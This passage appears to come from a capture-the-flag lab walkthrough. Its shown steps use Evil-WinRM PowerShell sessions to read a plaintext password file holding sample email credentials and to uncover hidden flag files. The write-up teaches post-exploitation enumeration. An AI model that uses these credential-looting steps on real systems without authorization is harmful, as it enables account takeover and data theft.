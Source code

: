 ```powershell
# Look for password storage locations
*Evil-WinRM* PS C:\> Get-ChildItem C:\Users\Public\Documents\Passwords\

    Directory: C:\Users\Public\Documents\Passwords

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM            234 email.txt
-a----         9/5/2025   10:15 AM            156 vpn.txt

*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Passwords\email.txt
Email Accounts:
Primary: jsmith@overclock.io
Password: Welcome1

Backup: admin@overclock.io
Password: Password123!

// FLAG{F************8}
```

**🎯 FLAG 7 FOUND**: FLAG{F**********8} - Email credentials

**Why Users Do This**: 
- Multiple email accounts
- Complex password requirements
- Fear of forgetting passwords
- Lack of password manager training

### FLAG 8: Hidden File Discovery

**Location**: WorkFiles directory  
**Difficulty**: Medium

```powershell
# Show hidden files using -Force parameter
*Evil-WinRM* PS C:\> Get-ChildItem C:\WorkFiles -Force

    Directory: C:\WorkFiles

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-h--         9/5/2025   10:15 AM             22 .flag
-a----         9/5/2025   10:15 AM           1024 project.docx
-a----         9/5/2025   10:15 AM           2048 budget.xlsx

# Note the 'h' attribute = hidden
*Evil-WinRM* PS C:\> Get-Content C:\WorkFiles\.flag
FLAG{S*************2}
```

**🎯 FLAG 8 FOUND**: FLAG{S**********2} - Hidden file
